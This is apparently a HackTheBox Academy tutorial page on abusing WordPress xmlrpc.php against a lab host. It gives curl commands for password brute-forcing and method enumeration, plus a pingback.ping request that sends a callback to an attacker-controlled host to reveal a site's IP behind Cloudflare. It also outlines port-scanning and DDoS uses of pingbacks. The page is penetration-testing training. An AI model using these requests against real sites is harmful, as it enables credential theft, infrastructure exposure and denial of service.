 # Attacking WordPress 'xmlrpc.php'

It is important to note that `xmlrpc.php` being enabled on a WordPress instance is not a vulnerability. Depending on the methods allowed, `xmlrpc.php` can facilitate some enumeration and exploitation activities, though.

Let us borrow an example from our [Hacking Wordpress](https://academy.hackthebox.com/module/details/17) module.

Suppose we are assessing the security of a WordPress instance residing in _http://blog.inlanefreight.com_. Through enumeration activities, we identified a valid username, `admin`, and that `xmlrpc.php` is enabled. Identifying if `xmlrpc.php` is enabled is as easy as requesting `xmlrpc.php` on the domain we are assessing.

We can mount a password brute-forcing attack through `xmlrpc.php`, as follows.

Attacking WordPress 'xmlrpc.php'

```shell-session
AIceBear@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
  <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

Above, you can see a successful login attempt through `xmlrpc.php`.

We will receive a `403 faultCode` error if the credentials are not valid.

Attacking WordPress 'xmlrpc.php'

```shell-session
AIceBear@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>WRONG-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>403</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Incorrect username or password.</string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```

You may ask how we identified the correct method to call (_system.listMethods_). We did that by going through the well-documented [Wordpress code](https://codex.wordpress.org/XML-RPC/system.listMethods) and interacting with `xmlrpc.php`, as follows.

Attacking WordPress 'xmlrpc.php'

```shell-session
AIceBear@htb[/htb]$ curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>demo.addTwoNumbers</string></value>
  <value><string>demo.sayHello</string></value>
  <value><string>pingback.extensions.getPingbacks</string></value>
  <value><string>pingback.ping</string></value>
  <value><string>mt.publishPost</string></value>
  <value><string>mt.getTrackbackPings</string></value>
  <value><string>mt.supportedTextFilters</string></value>
  <value><string>mt.supportedMethods</string></value>
  <value><string>mt.setPostCategories</string></value>
  <value><string>mt.getPostCategories</string></value>
  <value><string>mt.getRecentPostTitles</string></value>
  <value><string>mt.getCategoryList</string></value>
  <value><string>metaWeblog.getUsersBlogs</string></value>
  <value><string>metaWeblog.deletePost</string></value>
  <value><string>metaWeblog.newMediaObject</string></value>
  <value><string>metaWeblog.getCategories</string></value>
  <value><string>metaWeblog.getRecentPosts</string></value>
  <value><string>metaWeblog.getPost</string></value>
  <value><string>metaWeblog.editPost</string></value>
  <value><string>metaWeblog.newPost</string></value>
  <value><string>blogger.deletePost</string></value>
  <value><string>blogger.editPost</string></value>
  <value><string>blogger.newPost</string></value>
  <value><string>blogger.getRecentPosts</string></value>
  <value><string>blogger.getPost</string></value>
  <value><string>blogger.getUserInfo</string></value>
  <value><string>blogger.getUsersBlogs</string></value>
  <value><string>wp.restoreRevision</string></value>
  <value><string>wp.getRevisions</string></value>
  <value><string>wp.getPostTypes</string></value>
  <value><string>wp.getPostType</string></value>
  <value><string>wp.getPostFormats</string></value>
  <value><string>wp.getMediaLibrary</string></value>
  <value><string>wp.getMediaItem</string></value>
  <value><string>wp.getCommentStatusList</string></value>
  <value><string>wp.newComment</string></value>
  <value><string>wp.editComment</string></value>
  <value><string>wp.deleteComment</string></value>
  <value><string>wp.getComments</string></value>
  <value><string>wp.getComment</string></value>
  <value><string>wp.setOptions</string></value>
  <value><string>wp.getOptions</string></value>
  <value><string>wp.getPageTemplates</string></value>
  <value><string>wp.getPageStatusList</string></value>
  <value><string>wp.getPostStatusList</string></value>
  <value><string>wp.getCommentCount</string></value>
  <value><string>wp.deleteFile</string></value>
  <value><string>wp.uploadFile</string></value>
  <value><string>wp.suggestCategories</string></value>
  <value><string>wp.deleteCategory</string></value>
  <value><string>wp.newCategory</string></value>
  <value><string>wp.getTags</string></value>
  <value><string>wp.getCategories</string></value>
  <value><string>wp.getAuthors</string></value>
  <value><string>wp.getPageList</string></value>
  <value><string>wp.editPage</string></value>
  <value><string>wp.deletePage</string></value>
  <value><string>wp.newPage</string></value>
  <value><string>wp.getPages</string></value>
  <value><string>wp.getPage</string></value>
  <value><string>wp.editProfile</string></value>
  <value><string>wp.getProfile</string></value>
  <value><string>wp.getUsers</string></value>
  <value><string>wp.getUser</string></value>
  <value><string>wp.getTaxonomies</string></value>
  <value><string>wp.getTaxonomy</string></value>
  <value><string>wp.getTerms</string></value>
  <value><string>wp.getTerm</string></value>
  <value><string>wp.deleteTerm</string></value>
  <value><string>wp.editTerm</string></value>
  <value><string>wp.newTerm</string></value>
  <value><string>wp.getPosts</string></value>
  <value><string>wp.getPost</string></value>
  <value><string>wp.deletePost</string></value>
  <value><string>wp.editPost</string></value>
  <value><string>wp.newPost</string></value>
  <value><string>wp.getUsersBlogs</string></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

Inside the list of available methods above, [pingback.ping](https://codex.wordpress.org/XML-RPC\_Pingback\_API) is included. `pingback.ping` allows for XML-RPC pingbacks. According to WordPress, _a_ [_pingback_](https://wordpress.com/support/comments/pingbacks/) _is a special type of comment that’s created when you link to another blog post, as long as the other blog is set to accept pingbacks._

Unfortunately, if pingbacks are available, they can facilitate:

* IP Disclosure - An attacker can call the `pingback.ping` method on a WordPress instance behind Cloudflare to identify its public IP. The pingback should point to an attacker-controlled host (such as a VPS) accessible by the WordPress instance.
* Cross-Site Port Attack (XSPA) - An attacker can call the `pingback.ping` method on a WordPress instance against itself (or other internal hosts) on different ports. Open ports or internal hosts can be identified by looking for response time differences or response differences.
* Distributed Denial of Service Attack (DDoS) - An attacker can call the `pingback.ping` method on numerous WordPress instances against a single target.

Find below how an IP Disclosure attack could be mounted if `xmlrpc.php` is enabled and the `pingback.ping` method is available. XSPA and DDoS attacks can be mounted similarly.

Suppose that the WordPress instance residing in _http://blog.inlanefreight.com_ is protected by Cloudflare. As we already identified, it also has `xmlrpc.php` enabled, and the `pingback.ping` method is available.

As soon as the below request is sent, the attacker-controlled host will receive a request (pingback) originating from _http://blog.inlanefreight.com_, verifying the pingback and exposing _http://blog.inlanefreight.com_'s public IP address.

Code: http

```http
--> POST /xmlrpc.php HTTP/1.1 
Host: blog.inlanefreight.com 
Connection: keep-alive 
Content-Length: 293

<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://attacker-controlled-host.com/</string></value>
</param>
<param>
<value><string>https://blog.inlanefreight.com/2015/10/what-is-cybersecurity/</string></value>
</param>
</params>
</methodCall>
```

If you have access to our [Hacking Wordpress](https://academy.hackthebox.com/module/details/17) module, please note that you won't be able to exploit the availability of the `pingback.ping` method against the related section's target, due to egress restrictions.
